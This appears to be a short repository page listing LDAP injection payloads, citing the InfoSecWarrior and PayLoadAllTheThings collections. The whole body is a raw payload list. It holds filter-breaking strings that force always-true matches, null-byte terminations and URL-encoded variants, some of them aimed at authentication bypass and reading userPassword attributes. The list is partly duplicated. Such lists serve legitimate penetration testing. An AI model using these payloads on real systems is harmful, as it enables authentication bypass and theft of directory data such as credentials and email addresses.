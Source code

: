 ## Citations
- InfoSecWarrior:  https://github.com/InfoSecWarrior/Offensive-Pentesting-Web/tree/main/Injections/LDAP-Injection
- PayLoadAllTheThings: https://github.com/Ne3o1/PayLoadAllTheThings/tree/master/LDAP%20injection

## LDAP payload list：
```
*
*)(&
*))%00
 )(cn=))\x00
 *()|%26'
 *()|&'
 *(|(mail=*))
 *(|(objectclass=*))
 *)(uid=*))(|(uid=*
 */*
 *|
 /
 //
 //*
 @*
 |
 admin*
 admin*)((|userpassword=*)
 admin*)((|userPassword=*)
 x' or name()='username' or 'x'='y
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
!
%21
%26
%28
%29
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
%7C
&
(
)
```
